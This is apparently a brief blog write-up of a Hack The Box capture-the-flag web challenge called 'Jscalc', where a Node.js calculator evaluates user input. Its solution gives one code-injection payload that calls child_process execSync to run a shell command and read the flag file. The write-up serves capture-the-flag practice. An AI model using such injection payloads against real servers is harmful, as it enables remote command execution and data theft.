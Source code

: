 ```yaml
---
layout: post
title:  "Jscalc"
date:   2025-03-29 20:30:00 -0400
categories: HTB-challenge web easy
tags: HTB CTF writeup nodejs
---
```


### SOLUTION
We download the zip file, unzip it and we have `package.json`. We know that the web is running on `NodeJS` server.
![](assets/img/htb/jscalc/1.png)

So we can do some `NodeJS RCE`.

```
require( 'child_process') ,execSync( 'cat /flag.txt').toString( )
``` 
![](assets/img/htb/jscalc/2.png)
